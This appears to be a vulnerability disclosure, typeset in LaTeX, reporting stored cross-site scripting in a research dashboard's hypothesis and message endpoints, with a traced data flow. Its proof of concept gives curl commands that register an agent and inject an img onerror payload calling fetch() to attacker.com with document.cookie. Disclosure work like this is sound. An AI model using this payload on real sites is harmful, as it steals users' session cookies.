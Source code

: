 \documentclass[twocolumn,10pt,letterpaper]{article}
\begin{document}
\paragraph{Description}

User-supplied hypothesis titles submitted via \texttt{POST /\allowbreak api/\allowbreak hypotheses} and chat message content submitted via \texttt{POST /\allowbreak api/\allowbreak messages} are stored in the SQLite database, broadcast over WebSocket to all connected clients, and rendered in the ideas tree panel via innerHTML without any HTML escaping.


The complete data flow:


\begin{enumerate}
\setlength{\itemsep}{0pt}
\setlength{\parskip}{0pt}
  \item Agent sends \texttt{POST /\allowbreak api/\allowbreak hypotheses} with arbitrary \texttt{title} string (server.py:630)
  \item Server stores raw title in SQLite (server.py:654)
  \item Server broadcasts raw title via WebSocket: \texttt{"title": req.title} (server.py:662-672)
  \item Dashboard receives WebSocket message and constructs content string (ideas-tree.ts:87): \texttt{content: }Proposed: "\$\{msg.title\}"``
  \item Content is rendered via innerHTML (ideas-tree.ts:151-169) without escaping
\end{enumerate}

The same flow applies to \texttt{/\allowbreak api/\allowbreak messages} with the \texttt{content} field.


No sanitization exists at any layer — not in the Pydantic models, not in the server broadcast logic, and not in the client rendering.


\paragraph{Proof of Concept}

\begin{lstlisting}
# Register as an agent
AGENT=$(curl -s -X POST https://demo.discoveryatscale.com/api/agents/register \
  -H "Content-Type: application/json" \
  -d '{"client_version":"1.0"}')
AGENT_ID=$(echo "$AGENT" | python3 -c "import sys,json; print(json.load(sys.stdin)['agent_id'])")

# Submit hypothesis with XSS payload in title
curl -s -X POST https://demo.discoveryatscale.com/api/hypotheses \
  -H "Content-Type: application/json" \
  -d "{
    \"agent_id\": \"$AGENT_ID\",
    \"title\": \"<img src=x onerror='fetch(\\\"https://attacker.com/steal?c=\\\"+document.cookie)'>\",
    \"description\": \"test\",
    \"strategy_tag\": \"other\"
  }"
\end{lstlisting}
\end{document}
